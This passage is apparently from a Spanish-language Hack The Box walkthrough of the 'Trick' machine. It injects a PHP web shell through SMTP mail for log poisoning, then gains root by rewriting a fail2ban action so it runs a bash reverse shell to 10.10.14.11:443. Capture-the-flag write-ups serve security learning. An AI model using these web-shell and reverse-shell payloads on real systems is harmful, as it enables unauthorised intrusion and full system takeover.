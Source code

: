 ```bash
mail from:kumi@trick.htb
rcpt to: michael
data
Te envio este email --> <?php system($_GET['cmd']); ?>
.
```
Luego tendremos que aplicar lo mismo que hemos hecho antes con los logs nginx pero en la ruta **/var/spool/mail/michael**
![](/assets/images/htb-writeup-trick/log_poisoning_smtp_mail.png)

## Escalada de Privilegios
Si miramos los permisos que tenemos con **sudo -l** nos daremos cuenta de que podemos ejecutar como **root sin proporcionar contraseña** el script **/etc/init.d/fail2ban restart** Una rápida busqueda en google y encontraremos el siguiente recurso:[Fail2Exploit](https://securitylab.github.com/research/Fail2exploit/)

Para realizar esto crearemos un script en /tmp llamado pwn.sh que contendra:
```
#!/bin/bash

bash -c 'bash -i >&/dev/tcp/10.10.14.11/443 0>&!'
```
Luego nos iremos a la ruta **/etc/fail2ban/action.d** y como estamos en el grupo **Security** tendremos la capacidad de escribir dentro de esa carpeta.<br>
Cambiamos de nombre el archivo **iptables-multiport.conf** y nos creamos uno que se llame igual con los mismos datos.<br>
Posteriormente en el lugar que pone **actionban** debemos poner **/tmp/pwn.sh**.<br>
Por ultimo, reiniciamos el fail2ban con nuestro privilegio de root.<br>
Luego, solo haria falta ponernos en escucha con netcat por el puerto 443 y realizar multiples conexiones erroneas con ssh como el usuario michael hasta que nos baneen y se aplique la regla, que en este caso, nos entablará una reverse shell como root.
